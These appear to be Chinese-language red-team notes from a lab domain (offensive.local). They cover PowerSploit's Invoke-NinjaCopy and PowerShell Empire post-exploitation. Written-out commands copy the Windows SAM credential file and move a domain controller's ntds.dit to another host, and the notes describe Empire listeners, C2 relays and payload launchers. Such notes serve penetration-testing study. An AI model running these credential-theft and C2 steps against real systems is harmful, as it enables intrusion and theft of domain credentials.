 ## **Invoke-NinjaCopy.ps1脚本的使用**

- 该脚本在Exfiltration目录下，该文件的作用是复制一些系统无法复制的文件，比如sam文件。还可以在域环境中传输文件(前提是执行命令的用户是域用户)

注：该脚本需要管理员权限运行

**复制文件**

Import-Module .\Invoke-NinjaCopy.ps1

Invoke-NinjaCopy -Path C:\Windows\system32\config\sam -Verbose -LocalDestination C:\Users\administrator\Desktop\sam

**域环境中传输文件**

Copy-Item '[\\dc.offensive.local\C$\Users\administrator\Desktop\ntds.dit'-Destination](file://dc.offensive.local/C$/Users/administrator/Desktop/ntds.dit'-Destination) '[\\Client1.offensive.local\C$\Users\alice\Desktop\tools\ntds.dit](file://Client1.offensive.local/C$/Users/alice/Desktop/tools/ntds.dit)'  #将dc.offensive.local主机上c:\users\administrator\desktop\ntds.dit文件复制到 Client1.offensive.local 主机的C:\users\alice\Desktop\tools\ntds.dit文件

# powershell-empire

- powershell-empire     windows后渗透模块
- 一般生成powershell在目标机器执行，然后反弹给metasploit
- <empire>菜单

help：任何菜单都有的命令，help <command>查看命令帮助，table能补充全部命令

list：

listeners 显示当前活动的监听器，并进入<listeners>

agents 查看成功监听的靶机agent,agents菜单

- <listeners>

- - uselistenrer<type>:设置一个type类型监听器，http(s),http_com(使用IE的COM组件进行交互)

            - - http_foreign，这个跟http看不出差别在哪。http_hop，接收到的请求转发到其他的listener，猜测用于C2。
                    - dbx/onedrive，使用dropbox或者onedrive作为信息传递的中介，类似QQ空间上线或者weibo上线的远控。
                    - http_mapi，通过邮件上线。meterpreter，就不多说了，大家都知道的。

载荷器：launcher :launcher powershell/python <listenname> 生成载荷器代码，然后在靶机上运行代码即可

 usestager <path> 选择载荷器,set Listener <name>>要与监听器名字一样

​     generate/execute 生成载荷器文件，把载荷器文件到靶机上运行

kill <name> 删除监听

- <listerns/***>

info查看配置

set配置参数

execute 执行给定的监听器

<agents>
